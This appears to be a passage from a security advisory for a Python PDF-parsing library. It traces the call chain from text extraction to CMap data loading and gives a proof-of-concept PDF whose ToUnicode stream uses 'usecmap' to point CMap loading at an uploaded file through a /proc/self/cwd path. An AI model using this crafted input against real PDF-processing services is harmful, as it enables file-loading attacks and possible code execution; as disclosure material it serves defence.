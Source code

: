 ### Exploitation Chain

```
high_level.py::extract_pages()/extract_text()
	pdfinterp.py::PDFPageInterpreter.process_page(page)
		pdfinterp.py::PDFPageInterpreter.render_contents(resources, contents)
			pdfinterp.py::PDFPageInterpreter.init_resources(resources)
				pdfinterp.py::PDFResourceManager.get_font(objid, spec)
					pdffont.py::PDFType1Font.__init__(rsrcmgr, spec, strict)
						pdffont.py::PDFSimpleFont.__init__(descriptor, widths, spec)
							cmapdb.py::CMapParser(unicode_map, stream).run()
								cmapdb.py::CMapParser.nextobject()
									cmapdb.py::CMapParser.do_keyword(KEYWORD_USECMAP)
										cmapdb.py::CMapDB.get_cmap(cmap_name)
											cmapdb.py::CMapDB._load_data(name)
```

PDF format exploitation example

```
%PDF-1.4
%E2%E3%CF%D3
1 0 obj
<< /Type /Catalog /Pages 2 0 R >>
endobj

2 0 obj
<< /Type /Pages /Count 1 /Kids [3 0 R] >>
endobj

3 0 obj
<< /Type /Page /Parent 2 0 R /MediaBox [0 0 612 792] /Resources << /Font << /F1 4 0 R >> >> /Contents 5 0 R >>
endobj

4 0 obj
<< /Type /Font /Subtype /Type1 /BaseFont /Helvetica /ToUnicode 6 0 R >>
endobj

5 0 obj
<< /Length 42 >>
stream
BT
/F1 12 Tf
50 700 Td
(Exploit PDF) Tj
ET
endstream
endobj

6 0 obj
<< /Length 95 >>
stream
/CIDInit /ProcSet findresource begin
/#2Fproc#2Fself#2Fcwd#2Fuploads#2Fpoc_exploit usecmap
end
endstream
endobj

xref
0 7
0000000000 65535 f
0000000015 00000 n
0000000064 00000 n
0000000121 00000 n
```